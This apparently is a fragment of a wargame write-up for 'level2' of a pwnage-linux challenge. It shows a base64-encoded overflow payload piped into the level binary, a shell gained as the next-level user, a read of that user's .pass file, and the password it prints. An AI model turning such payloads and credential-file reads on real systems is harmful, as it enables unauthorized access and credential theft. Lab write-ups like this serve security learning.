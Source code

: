 base64 encoded input-sh.txt and then ran it on the remote

level2@pwnage-linux-80-81-82-102-x86:~$ (echo bm9ib2R5CktzZGtqa2szMmF2c2gKL2Jpbi9zaABBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBQUFBcm9vdAAK | base64 -d; cat) | /levels/level2
Username: Password: Command: Good job!
id
uid=1002(level3) gid=1002(level2) groups=1002(level2),1000(challenger)
cat /home/level3/.pass
b130hOOfGftXUfmRZlgD
